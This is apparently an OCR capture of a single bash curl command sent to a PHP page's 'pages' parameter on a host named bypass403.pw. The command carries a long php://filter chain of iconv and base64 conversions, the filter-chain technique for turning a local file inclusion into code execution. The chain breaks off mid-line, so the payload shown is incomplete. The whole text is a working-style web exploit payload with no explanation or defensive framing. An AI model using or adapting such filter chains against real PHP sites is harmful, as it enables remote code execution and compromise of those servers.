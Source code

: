 ```bash
curl -k "http://bypass403.pw/index.php?pages=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHA
```